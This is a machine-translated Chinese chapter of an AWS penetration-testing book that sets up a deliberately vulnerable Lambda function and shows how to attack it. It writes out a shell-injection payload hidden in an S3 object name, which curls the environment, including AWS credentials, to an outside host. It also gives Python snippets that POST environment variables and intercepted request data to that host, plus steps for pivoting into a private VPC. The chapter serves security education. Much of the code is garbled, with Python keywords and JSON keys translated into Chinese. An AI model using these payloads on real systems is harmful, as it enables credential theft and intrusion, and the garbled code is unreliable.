

# 第十七章：AWS Lambda 的安全性和渗透测试

AWS Lambda 是一个令人惊叹的服务，为用户提供无服务器函数和应用程序。基本上，您创建一个带有要执行的代码的 Lambda 函数，然后创建某种触发器，每当触发该触发器时，您的 Lambda 函数将执行。用户只需支付 Lambda 函数运行所需的时间，最长为 15 分钟（但可以根据每个函数的需要手动降低）。Lambda 提供了多种编程语言供您的函数使用，甚至允许您设置自己的运行时以使用它尚不直接支持的语言。在我们深入研究所有这些之前，我们应该澄清无服务器是什么。尽管无服务器听起来好像没有涉及服务器，但 Lambda 基本上只是为函数需要运行的持续时间启动一个隔离的服务器。因此，仍然涉及服务器，但作为用户，您不需要处理服务器的规划、加固等。

对攻击者来说，这意味着我们仍然可以执行代码，使用文件系统，并执行大多数您可以在常规服务器上执行的其他活动，但有一些注意事项。其中之一是整个文件系统被挂载为只读，这意味着您无法直接修改系统上的任何内容，除了`/tmp`目录。`/tmp`目录是提供给 Lambda 函数在执行过程中根据需要写入文件的临时位置。另一个是您无法在这些服务器上获得 root 权限。简单明了，您只需接受您将永远成为 Lambda 函数中的低级用户。如果您确实找到了提升为 root 用户的方法，我相信 AWS 安全团队的人会很乐意听到这个消息。

在现实世界中，您可能会使用 Lambda 的一个示例场景是对上传到特定 S3 存储桶的任何文件进行病毒扫描。每次上传文件到该存储桶时，Lambda 函数将被触发，并传递上传事件的详细信息。然后，函数可能会将该文件下载到`/tmp`目录，然后使用 ClamAV（[`www.clamav.net/`](https://www.clamav.net/)）之类的工具对其进行病毒扫描。如果扫描通过，执行将完成。如果扫描标记文件为病毒，它可能会删除 S3 中相应的对象。

在本章中，我们将涵盖以下主题：

+   设置一个易受攻击的 Lambda 函数

+   使用读取访问攻击 Lambda 函数

+   使用读写访问攻击 Lamda 函数

+   转向虚拟私有云

# 设置一个易受攻击的 Lambda 函数

S3 中用于病毒扫描文件的 Lambda 函数的先前示例与我们将在自己的环境中设置的类似，但更复杂。我们指定的 S3 存储桶上传文件时，我们的函数将被触发，然后下载该文件，检查内容，然后根据发现的内容在 S3 对象上放置标签。这个函数将有一些编程错误，使其容易受到利用，以便进行演示，所以不要在生产账户中运行这个函数！

在我们开始创建 Lambda 函数之前，让我们首先设置将触发我们函数的 S3 存储桶和我们函数将承担的 IAM 角色。导航到 S3 仪表板（单击服务下拉菜单并搜索 S3），然后单击“创建存储桶”按钮：


S3 仪表板上的“创建存储桶”按钮

现在，给您的存储桶一个唯一的名称；我们将使用 bucket-for-lambda-pentesting，但您可能需要选择其他内容。对于地区，我们选择美国西部（俄勒冈州），也称为 us-west-2。然后，单击“下一步”，然后再次单击“下一步”，然后再次单击“下一步”。将这些页面上的所有内容保留为默认设置。现在，您应该看到您的 S3 存储桶的摘要。单击“创建存储桶”以创建它：

！[](img/23b01b13-0858-49ba-92a4-eadfe7664eb8.png)

单击的最终按钮以创建您的 S3 存储桶

现在，在您的存储桶列表中显示存储桶名称时，单击该名称，这将完成我们的 Lambda 函数的 S3 存储桶设置（暂时）。

在浏览器中保留该选项卡打开，并在另一个选项卡中打开 IAM 仪表板（服务| IAM）。在屏幕左侧的列表中单击“角色”，然后单击左上角的“创建角色”按钮。在选择受信任实体类型下，选择 AWS 服务，这应该是默认值。然后，在“选择将使用此角色的服务”下，选择 Lambda，然后单击“下一步：权限”：

！[](img/e605c290-0a64-4bf5-a8fb-8b333713d7b1.png)

为我们的 Lambda 函数创建一个新角色

在此页面上，搜索 AWS 托管策略`AWSLambdaBasicExecutionRole`，并单击其旁边的复选框。此策略将允许我们的 Lambda 函数将执行日志推送到 CloudWatch，并且从某种意义上说，这是 Lambda 函数应该提供的最低权限集。可以撤销这些权限，但是 Lambda 函数将继续尝试写日志，并且将继续收到访问被拒绝的响应，这对于观察的人来说会很嘈杂。

现在，搜索 AWS 托管策略`AmazonS3FullAccess`，并单击其旁边的复选框。这将使我们的 Lambda 函数能够与 S3 服务进行交互。请注意，对于我们的 Lambda 函数用例来说，此策略过于宽松，因为它允许对任何 S3 资源进行完全的 S3 访问，而从技术上讲，我们只需要对我们的单个 bucket-for-lambda-pentesting S3 存储桶进行少量的 S3 权限。通常，您会发现在攻击的 AWS 帐户中存在过度授权的资源，这对于您作为攻击者来说没有任何好处，因此这将成为我们演示场景的一部分。

现在，单击屏幕右下角的“下一步：标记”按钮。我们不需要向此角色添加任何标记，因为这些通常用于我们现在需要担心的其他原因，所以只需单击“下一步：立即审阅”。现在，为您的角色创建一个名称；对于此演示，我们将其命名为`LambdaRoleForVulnerableFunction`，并且我们将保留角色描述为默认值，但如果您愿意，可以在其中编写自己的描述。现在，通过单击屏幕右下角的“创建角色”来完成此部分。如果一切顺利，您应该会在屏幕顶部看到成功消息：

！[](img/43a084b8-68c6-4fd8-ab95-65f27053d85d.png)

我们的 IAM 角色已成功创建

最后，我们可以开始创建实际的易受攻击的 Lambda 函数。要这样做，请转到 Lambda 仪表板（服务| Lambda），然后单击“创建函数”，这应该出现在欢迎页面上（因为可能您还没有创建任何函数）。请注意，这仍然位于美国西部（俄勒冈州）/ us-west-2 地区，就像我们的 S3 存储桶一样。

然后，在顶部选择从头开始。现在，为您的函数命名。对于此演示，我们将其命名为`VulnerableFunction`。接下来，我们需要选择我们的运行时，可以是各种不同的编程语言。对于此演示，我们将选择 Python 3.7 作为我们的运行时。

对于角色选项，请选择选择现有角色，然后在现有角色选项下，选择我们刚刚创建的角色（LambdaRoleForVulnerableFunction）。最后，单击右下角的“创建函数”：

！[](img/8694b8c0-c1eb-4cbd-9196-047d9f9cee33.png)

我们新的易受攻击的 Lambda 函数设置的所有选项

现在，您应该进入新易受攻击函数的仪表板，该仪表板可让您查看和配置 Lambda 函数的各种设置。

目前，我们可以暂时忽略此页面上的大部分内容，但是如果您想了解有关 Lambda 本身的更多信息，我建议您阅读 AWS 用户指南：[`docs.aws.amazon.com/lambda/latest/dg/welcome.html`](https://docs.aws.amazon.com/lambda/latest/dg/welcome.html)。现在，向下滚动到“函数代码”部分。我们可以看到“处理程序”下的值是`lambda_function.lambda_handler`。这意味着当函数被调用时，`lambda_function.py`文件中名为`lambda_handler`的函数将作为 Lambda 函数的入口点执行。`lambda_function.py`文件应该已经打开，但如果没有，请在“函数代码”部分左侧的文件列表中双击它：


Lambda 函数处理程序及其引用的值

如果您选择了不同的编程语言作为函数的运行时，您可能会遇到略有不同的格式，但总体上它们应该是相似的。

现在我们已经有了 Lambda 函数、Lambda 函数的 IAM 角色和我们创建的 S3 存储桶，我们将在我们的 S3 存储桶上创建事件触发器，每次触发时都会调用我们的 Lambda 函数。要做到这一点，返回到您的 bucket-for-lambda-pentesting S3 存储桶所在的浏览器选项卡，单击“属性”选项卡，然后向下滚动到“高级设置”下的选项，单击“事件”按钮：


访问我们 S3 存储桶的事件设置

接下来，单击“添加通知”，并将此通知命名为`LambdaTriggerOnS3Upload`。在“事件”部分下，选中“所有对象创建事件”旁边的复选框，这对我们的需求已经足够了。对于此通知，我们将希望将“前缀”和“后缀”留空。单击“发送到”下拉菜单，并选择“Lambda 函数”，然后应该显示另一个下拉菜单，您可以在其中选择我们创建的函数`VulnerableFunction`。最后，单击“保存”：



我们想要的新通知配置

单击“保存”后，**事件**按钮应显示 1 个活动通知：


我们刚刚设置的通知。

如果您返回到 Lambda 函数仪表板并刷新页面，您应该看到 S3 已被添加为左侧“设计”部分中我们 Lambda 函数的触发器：


Lambda 函数知道它将被我们刚刚设置的通知触发

基本上，我们刚刚告诉我们的 S3 存储桶，每当创建一个对象（`/uploaded/`等），它都应该调用我们的 Lambda 函数。S3 将自动调用 Lambda 函数，并通过`event`参数传递与通过`event`参数传递的上传文件相关的详细信息，这是我们的函数接受的两个参数之一（`event`和`context`）。Lambda 函数可以通过在执行过程中查看`event`的内容来读取这些数据。

要完成我们易受攻击的 Lambda 函数的设置，我们需要向其中添加一些易受攻击的代码！在 Lambda 函数仪表板上，在“函数代码”下，用以下代码替换默认代码：

[PRE0]

当我们继续阅读本章时，我们将更深入地了解这个函数的运行情况。简单来说，每当文件上传到我们的 S3 存储桶时，这个函数就会被触发；它将确认文件是否具有`.zip`扩展名，然后将文件下载到`/tmp`目录中。下载完成后，它将使用`zipinfo`、`grep`和`wc`程序来计算 ZIP 文件中存储了多少文件。然后它将向 S3 中的对象添加一个标签，指定该 ZIP 文件中有多少个文件。你可能已经能够看到一些问题可能出现的地方，但我们稍后会讨论这些问题。

我们要做的最后一件事是下拉到 Lambda 仪表板的环境变量部分，并添加一个带有键`app_secret`和值`1234567890`的环境变量：


将 app_secret 环境变量添加到我们的函数中。

要完成本节，只需点击屏幕右上角的大橙色保存按钮，将此代码保存到您的 Lambda 函数中，我们就可以继续了。

# 使用只读访问攻击 Lambda 函数

要开始本章的只读访问部分，我们将创建一个具有特定权限集的新 IAM 用户。这是我们将用来演示攻击的用户，因此我们可以假设我们以某种方式刚刚窃取了这个用户的密钥。这些权限将允许对 AWS Lambda 进行只读访问，并允许向 S3 上传对象，但不会超出此范围。我们不会详细介绍创建用户、设置其权限并将其密钥添加到 AWS CLI 的整个过程，因为我们在之前的章节中已经涵盖了这些内容。

因此，请继续创建一个具有对 AWS 的编程访问权限的新 IAM 用户。对于这个演示，我们将命名该用户为`LambdaReadOnlyTester`。接下来，我们将添加一个自定义的内联 IAM 策略，使用以下 JSON 文档：

[PRE1]

正如你所看到的，我们可以使用任何以`List`或`Get`开头的 Lambda API，以及使用 S3 的`PutObject` API。这就像我在许多 AWS 环境中看到的情况，用户对各种资源具有广泛的读取权限，然后还有一些额外的 S3 权限，比如上传文件的能力。

在作为攻击者查看 AWS Lambda 时，首先要做的是获取账户中每个 Lambda 函数的所有相关数据。这可以通过 Lambda 的`ListFunctions` API 来完成。对于这个演示，我们已经知道我们想要攻击的函数在`us-west-2`，但在实际情况下，你可能想要检查每个区域是否有可能感兴趣的 Lambda 函数。我们将首先运行以下 AWS CLI 命令：

[PRE2]

我们应该得到一些有用的信息。首先要查找的是环境变量。我们自己设置了这个有漏洞的函数，所以环境变量对我们来说并不是什么秘密，但作为攻击者，你经常可以发现存储在函数的环境变量中的敏感信息。这些信息在我们刚刚进行的`ListFunctions`调用中以`"Environment"`键的形式返回给我们，对于我们的有漏洞的函数，它应该看起来像这样：

[PRE3]

你可以指望在 Lambda 函数的环境变量中发现各种意想不到的东西。作为攻击者，`"app_secret"`的值听起来很有趣。在过去的渗透测试中，我在环境变量中发现了各种秘密，包括用户名/密码/第三方服务的 API 密钥，AWS API 密钥到完全不同的账户，以及更多。仅仅查看几个 Lambda 函数的环境变量就让我多次提升了自己的权限，因此重要的是要注意存储的内容。我们自己设置了这个有漏洞的函数，所以我们知道`"app_secret"`环境变量对我们来说没有什么用，但它被包含在其中是为了演示这个想法。

在运行 Lambda `ListFunctions` API 调用时，如果函数设置了环境变量，`"Environment"`键将只包括在结果中；否则，它不会显示在结果中，所以如果那里没有任何内容可用，不要担心。

在检查环境变量之后，现在是查看每个 Lambda 函数的代码的好时机。要从 AWS CLI 中执行此操作，我们可以使用从`ListFunctions`获得的函数列表，并将每个函数通过 Lambda `GetFunction` API 调用运行。对于我们的易受攻击函数，我们可以运行以下命令：

[PRE4]

输出将看起来像运行`ListFunctions`时为每个函数返回的内容，但有一个重要的区别，即添加了`Code`键。这个键将包括`RepositoryType`和`Location`键，这是我们将代码下载到这个函数的方式。我们只需要复制 Code | Location 下的 URL 并粘贴到我们的网络浏览器中。提供的 URL 是一个预签名的 URL，它给了我们访问存储 Lambda 代码的 S3 存储桶的权限。访问页面后，它应该会下载一个以`VulnerableFunction`开头的`.zip`文件。

如果您解压文件，您会看到一个名为`lambda_function.py`的单个文件，其中存储了 Lambda 函数的代码。在许多情况下，那里会有多个文件，如第三方库、配置文件或二进制文件。

尽管我们的易受攻击函数相对较短，但我们将以它是大量代码的方式来处理，因为我们不能仅仅手动快速分析来模拟真实情况，因为您可能不熟悉 Lambda 函数使用的编程语言。

将函数解压到我们的计算机上后，我们现在将开始对包含的代码进行静态分析。我们知道这个函数正在运行 Python 3.7，因为当我们运行`ListFunctions`和`GetFunction`时，`Runtime`下列出了 Python 3.7，并且主文件是一个`.py`文件。代码的静态分析有许多选项，免费和付费的，它们在不同的编程语言之间有所不同，但我们将使用`Bandit`，它被描述为一个旨在发现 Python 代码中常见安全问题的工具。在继续之前，请注意，仅仅因为我们在这里使用它，并不一定意味着它是最好的和/或完美的。我建议您进行自己的研究，并尝试不同的工具，找到自己喜欢的工具，但 Bandit 是我个人喜欢使用的工具之一。Bandit 托管在 GitHub 上[`github.com/PyCQA/bandit`](https://github.com/PyCQA/bandit)。

Bandit 的安装很简单，因为它是通过 PyPI 提供的，这意味着我们可以使用 Python 包管理器`pip`来安装它。按照 Bandit GitHub 上的说明，我们将运行以下命令（一定要自行检查，以防有任何更新）：

[PRE5]

我们使用`virtualenv`，以避免安装 Python 依赖项时出现任何问题，然后我们使用`pip3`来安装`bandit`，因为我们要分析的代码是用 Python 3 编写的。在撰写本文时，安装了 Bandit 版本 1.5.1，因此如果在本节的其余部分遇到任何问题，请注意您自己安装的版本。安装完成后，我们可以切换到解压 Lambda 函数的目录，然后使用`bandit`命令来针对包含我们代码的文件夹。我们可以使用以下命令来执行：

[PRE6]

现在 Lambda 函数将被扫描，`-r`标志指定递归，即扫描`VulnerableFunction`文件夹中的每个文件。我们现在只有一个文件，但了解这个标志对我们正在扫描的更大的 Lambda 函数有什么作用是很有用的。Bandit 完成后，我们将看到它报告了三个单独的问题：一个低严重性和高置信度，一个中等严重性和中等置信度，一个高严重性和高置信度：


Bandit 输出的结果

通常，静态源代码分析工具会输出相当数量的误报，因此重要的是要逐个检查每个问题，以验证它是否是一个真正的问题。静态分析工具也缺乏代码可能如何使用的上下文，因此安全问题可能对某些代码是一个问题，但对其他代码来说并不重要。在审查 Bandit 提出的第二个问题时，我们将更多地关注上下文。

查看 Bandit 报告的第一个问题，我们可以看到消息“考虑与子进程模块相关的可能安全影响”，这是非常有道理的。子进程模块用于在计算机上生成新进程，如果操作不正确可能会造成安全风险。我们将把这标记为一个有效问题，但在审查代码时要牢记这一点。

Bandit 报告的第二个问题告诉我们“可能不安全地使用了临时文件/目录”，并向我们显示了代码的行，其中一个变量被赋予了`/tmp`目录中文件路径的值，附加了另一个变量`object_key`。这是一个安全问题，在某些应用程序中可能是一个大问题，但考虑到我们 Lambda 函数的上下文，我们可以假设在这种情况下这不是一个问题。为什么？安全风险的一部分是可能有用户能够控制文件路径。用户可能会插入路径遍历序列或者欺骗脚本将临时文件写入其他位置，比如`/etc/shadow`，这可能会带来危险的后果。这对我们来说不是一个问题，因为代码在 Lambda 中运行，这意味着它在只读文件系统上运行；所以，即使有人能够遍历出`/tmp`目录，函数也无法覆盖系统上的任何重要文件。这里可能会出现其他可能的问题，但对我们来说没有直接适用的，所以我们可以把这个问题划掉为误报。

接下来是 Bandit 提出的最后一个最严重的问题，它告诉我们“识别出了使用 shell=True 的子进程调用，存在安全问题”，听起来很有趣。这告诉我们正在生成一个新进程，并且可以访问操作系统的 shell，这可能意味着我们可以注入 shell 命令！看看 Bandit 标记的行（第 30 行），我们甚至可以看到一个 Python 变量（`file_download_path`）直接连接到正在运行的命令中。这意味着如果我们可以以某种方式控制该值，我们可以修改在操作系统上运行的命令以执行任意代码。

接下来，我们想看看`file_download_path`在哪里被赋值。我们知道它的赋值出现在 Bandit 的问题＃2（第 25 行），代码如下：

[PRE7]

就像第 30 行的字符串一样，这里使用了 Python 3 的`f`字符串（有关更多信息，请参见[`docs.python.org/3/whatsnew/3.6.html#pep-498-formatted-string-literals`](https://docs.python.org/3/whatsnew/3.6.html#pep-498-formatted-string-literals)），它基本上允许您在字符串中嵌入变量和代码，因此您不必进行任何混乱的连接，使用加号或其他任何东西。我们在这里看到的是`file_download_path`是一个字符串，其中包含代码中的另一个变量`object_key`，它在其中的每个`"/"`处被拆分。然后，`[-1]`表示使用从`"/"`拆分而成的列表的最后一个元素。

现在，如果我们追溯`object_key`变量，看看它是在哪里被赋值的，我们可以看到在第 13 行，它被赋值为`record['s3']['object']['key']`的值。好的，我们可以看到函数期望`event`变量包含有关 S3 对象的信息（以及第 11 行的 S3 存储桶）。我们想弄清楚是否可以以某种方式控制该变量的值，但考虑到我们作为攻击者的上下文，我们不知道这个函数是否会定期被调用，也不知道如何调用。我们可以检查的第一件事是我们的 Lambda 函数是否有任何事件源映射。可以使用以下命令来完成这个任务：

[PRE8]

在这种情况下，我们应该得到一个空列表，如下所示：

[PRE9]

事件源映射基本上是将 Lambda 函数连接到另一个服务的一种方式，以便在该服务中发生其他事情时触发它。事件源映射的一个示例是 DynamoDB，每当 DynamoDB 表中的项目被修改时，它就会触发一个 Lambda 函数，并包含被添加到表中的内容。正如您所看到的，我们当前的函数没有与此相关的内容，但现在不是恐慌的时候！并非每个自动触发源都会显示为事件源映射。

下一步将是查看 Lambda 函数的资源策略，它基本上指定了谁可以调用此函数。要获取资源策略，我们将使用`GetPolicy` API：

[PRE10]

如果我们幸运的话，我们将得到一个 JSON 对象作为对此 API 调用的响应，但如果没有，我们可能会收到 API 错误，指示找不到资源。这将表明没有为 Lambda 函数设置资源策略。如果是这种情况，那么我们可能无法以任何方式调用此 Lambda 函数，除非我们碰巧拥有`lambda:InvokeFunction`权限（但在这种情况下我们没有）。

今天一定是我们的幸运日，因为我们得到了一个策略。它应该看起来像下面这样，只是`000000000000`将被您自己的 AWS 帐户 ID 替换，修订 ID 将不同：

[PRE11]

混乱且难以阅读，对吧？这是因为一个 JSON 对象被存储为一个字符串，作为另一个 JSON 对象中一个键的值。为了使这一点更清晰，我们可以复制`"Policy"`键内的整个值，删除转义字符（`\`），并添加一些漂亮的缩进，然后我们将得到这样的结果：

[PRE12]

看起来好多了，不是吗？我们正在查看一个 JSON 策略文档，指定了什么可以调用这个 Lambda 函数，我们可以看到`"Action"`设置为`"lambda:InvokeFunction"`。接下来，我们可以看到`"Principal"`设置为 AWS 服务 S3。这听起来正确，因为我们知道该函数正在处理 S3 对象。在`"Resource"`下，我们看到了 Lambda 函数的 ARN，正如预期的那样。在`"Condition"`下，我们看到`"AWS:SourceAccount"`必须是`000000000000`，这是我们正在使用的账户 ID，所以很好。在`"Condition"`下还有`"ArnLike"`，显示了一个 S3 存储桶的 ARN。我们没有所需的 S3 权限去确认这些信息，但我们可以合理地假设某种 S3 事件已经设置好，当发生某些事情时会调用这个函数（我们知道这是真的，因为我们之前设置过）。

另一个重要的提示可以在`"Sid"`键中找到，我们可以看到值为`"000000000000_event_permissions_for_LambdaTriggerOnS3Upload_from_bucket-for-lambda-pentesting_for_Vul"`，这显示了`"LambdaTriggerOnS3Upload"`。现在我们可以做出一个合理的猜测，即当文件上传到 S3 存储桶`"bucket-for-lambda-pentesting"`时，将调用这个 Lambda 函数。如果你还记得我们设置这些资源时，`"LambdaTriggerOnS3Upload"`就是我们之前添加到 S3 存储桶的事件触发器的名称，所以在这种情况下，冗长的命名方案帮助了我们作为攻击者。更好的是，我们知道我们的受损用户被授予了`"s3:PutObject"`权限！

现在我们已经拼出了这个谜题的所有部分。我们知道 Lambda 函数运行一个带有变量（`file_download_path`）的 shell 命令，我们知道该变量由另一个变量（`object_key`）组成，我们知道该变量被设置为值`record['s3']['object']['key']`。我们还知道，每当文件上传到`"bucket-for-lambda-pentesting"` S3 存储桶时，就会调用这个 Lambda 函数，而且我们有必要的权限将文件上传到该存储桶。鉴于这一切，这意味着我们可以上传一个我们选择的文件，最终将其传递到一个 shell 命令中，这正是我们想要的，如果我们试图在系统上执行代码！

但是，等等；在运行 Lambda 函数的服务器上执行任意代码有什么好处呢？它是一个只读文件系统，而且我们已经有了源代码。更多的凭证，这就是好处！如果你还记得之前，我们需要创建一个 IAM 角色，附加到我们创建的 Lambda 函数上，然后允许我们的函数与 AWS API 进行身份验证。当 Lambda 函数运行时，它会假定附加到它的 IAM 角色，并获得一组临时凭证（记住，这是访问密钥 ID、秘密访问密钥和会话令牌）。Lambda 函数与 EC2 实例有些不同，这意味着没有`http://169.254.169.254`上的元数据服务，这意味着我们无法通过那里检索这些临时凭证。Lambda 的做法不同；它将凭证存储在环境变量中，所以一旦我们能在服务器上执行代码，我们就可以窃取这些凭证，然后我们将获得附加到 Lambda 函数的角色的所有权限。

在这种情况下，我们知道 LambdaRoleForVulnerableFunction IAM 角色具有完全的 S3 访问权限，这比我们微不足道的`PutObject`访问权限要多得多，它还具有一些 CloudWatch 日志权限。我们目前无法访问 CloudWatch 中的日志，所以我们需要将凭证窃取到我们控制的服务器上。否则，我们将无法读取这些值。

现在，让我们开始我们的有效载荷。有时，如果您将整个 Lambda 函数复制到自己的 AWS 帐户中，可能会有所帮助，这样您就可以使用有效载荷对其进行轰炸，直到找到有效的有效载荷，但我们将首先手动尝试。我们知道我们基本上控制`object_key`变量，最终将其放入 shell 命令中。因此，如果我们传入一个无害的值`"hello.zip"`，我们将看到以下内容：

[PRE13]

似乎只有一个限制需要我们担心，那就是代码检查文件是否在第 16 行具有`.zip`扩展名。有了所有这些信息，我们现在可以开始制作恶意有效载荷。

`zipinfo /tmp/hello.zip`命令中直接包含了我们提供的字符串，因此我们只需要打破这个命令以运行我们自己的任意命令。如果我们将`hello.zip`更改为`hello;sleep 5;.zip`，那么最终命令将变成`"zipinfo /tmp/hello;sleep 5;.zip | grep ^- | wc -l"`。我们插入了几个分号，这会导致 shell 解释器（bash）认为有多个要执行的命令。不是运行单个命令`zipinfo /tmp/hello.zip`，而是运行`"zipinfo /tmp/hello"`，这将失败，因为那不是一个存在的文件；然后，它将运行`"sleep 5"`并休眠五秒，然后它将运行`".zip"`，这不是一个真正的命令，因此将抛出错误。

就像这样，我们已经将一个命令(`sleep 5`)注入到 Lambda 服务器的 shell 中。现在，因为这是盲目的（也就是说，我们看不到任何命令的输出），我们需要窃取我们想要的重要信息。支持 Lambda 函数的操作系统默认安装了`"curl"`，因此这将是进行外部请求的一种简单方法，我们知道 AWS 凭证存储在环境变量中，因此我们只需要`curl`凭证到我们控制的服务器。

为此，我在自己的服务器上设置了 NetCat 监听器（示例中的 IP 地址为`1.1.1.1`），端口为`80`，命令如下：

[PRE14]

然后，我们将制定一个有效载荷，将窃取凭证。我们可以使用`"env"`命令访问环境变量，因此用 curl 向我们的外部服务器发出 HTTP POST 请求的一般命令，其中包括所有环境变量作为主体，如下所示：

[PRE15]

这可能看起来有点奇怪，但因为`"env"`命令提供多行内容，所以需要将其放入引号中，否则它将破坏整个命令（尝试在自己的服务器上运行`"curl -X POST -d `env` 1.1.1.1"`并查看结果）。如果您不熟悉，反引号（[PRE16]

hello;curl -X POST -d "`env`" 1.1.1.1;.zip

[PRE17]

touch 'hello;curl -X POST -d "`env`" 1.1.1.1;.zip'

[PRE18]

aws s3 cp ./'hello;curl -X POST -d "`env`" 1.1.1.1;.zip' s3://bucket-for-lambda-pentesting --profile LambdaReadOnlyTester

[PRE19]

aws iam list-roles --profile LambdaReadWriteUser

[PRE20]

{

"路径": "/",

"角色名称": "LambdaRoleForVulnerableFunction",

"角色 ID": "AROAIWA1V2TCA1TNPM9BL",

"Arn": "arn:aws:iam::000000000000:role/LambdaRoleForVulnerableFunction",

"创建日期": "2018-12-19T21:01:17Z",

"假定角色策略文档": {

"版本": "2012-10-17",

"声明": [

{

"效果": "允许",

"主体": {

"服务": "lambda.amazonaws.com"

}，

"操作": "sts:AssumeRole

}

]

}，

"描述": "允许 Lambda 函数代表您调用 AWS 服务。",

"最大会话持续时间": 3600

}

[PRE21]

导入 json

导入 boto3

def lambda_handler（event，context）：

ec2 = boto3.client（'ec2'）

reservations = ec2.describe_instances（）['Reservations']

打印（json.dumps（reservations，indent = 2，默认= str））

[PRE22]

尝试：

s3 = boto3.client（'s3'）

打印（s3.list_buckets（））

尝试：

通过

[PRE23]

从 botocore.vendored 导入请求

[PRE24]

尝试：

导入 os

从 botocore.vendored 导入请求

请求.post（'http://1.1.1.1'，json = os.environ.copy（），超时= 0.01）

尝试：

通过

[PRE25]

尝试：

从 botocore.vendored 导入请求

requests.post（'http://1.1.1.1'，json = event，timeout = 0.01）

除外：

通过

[PRE26]

尝试：

数据= {'url'：url，'params'：params，** kwargs}

请求（'POST'，'http://1.1.1.1'，json = data，timeout = 0.01）

除外：

通过

[PRE27]

aws ec2 describe-instances

[PRE28]

尝试：

从 botocore.vendored 导入请求

req = requests.get（'http://172.31.32.192 /'）

打印（req.text）

除外：

通过

```

为了简单起见，我们将只将输出打印到控制台并在那里查看，但这是另一种可能需要某种外泄的情况。但是，请确保您的 Lambda 函数具有 Internet 访问权限，因为当它们被启动到 VPC 中时，它们会失去默认的 Internet 访问权限，并依赖于 VPC 来提供该访问权限。

在运行有效负载以尝试向该内部 IP 发出 HTTP 请求后，我们在 Lambda 控制台中看到了以下内容：

！[]（img / c8ed9d36-5578-42ed-8b50-ce50c7e375a8.png）

我们联系了内部服务器并收到了回应

就这样，我们可以看到，我们已经访问了内部网络，以绕过网络限制，并访问了我们正在攻击的公司的某种内部人力资源门户。在底部，我们甚至可以看到一张包含一些私人员工信息的表，例如他们的薪水。

这样就可以轻松地访问 AWS 网络的内部侧。这种方法可以用于各种不同的攻击，例如访问不公开可访问的 RDS 数据库，因为我们可以将 Lambda 函数启动到其所在的 VPC /子网中并与其进行连接。各种 AWS 服务都有将资源启动到私有 VPC 以禁用对其的公共访问的选项，而这种进入 VPC 内部的方法使我们能够访问所有这些不同的服务；其他一些示例包括`ElastiCache`数据库，EKS 集群等。

# 摘要

AWS Lambda 是一项非常多才多艺且有用的服务，既适用于 AWS 用户，也适用于攻击者。作为攻击者，我们可以利用 Lambda 的许多可能性，其中最好的一点是，我们的目标甚至不一定需要自己使用 Lambda，也可以使我们受益。

由于 Lambda 有许多不同的用例，它总是我们要检查的更高优先级服务之一，因为它通常会产生非常有益的攻击路径，使我们能够进一步访问 AWS 环境。还要记住的一件事是，与许多服务（包括 Lambda）一样，它们不断发展，打开和关闭不同的攻击路径，我们可以利用；保持最新和知识渊博非常重要，因为我们正在攻击的帐户将利用这些变化。
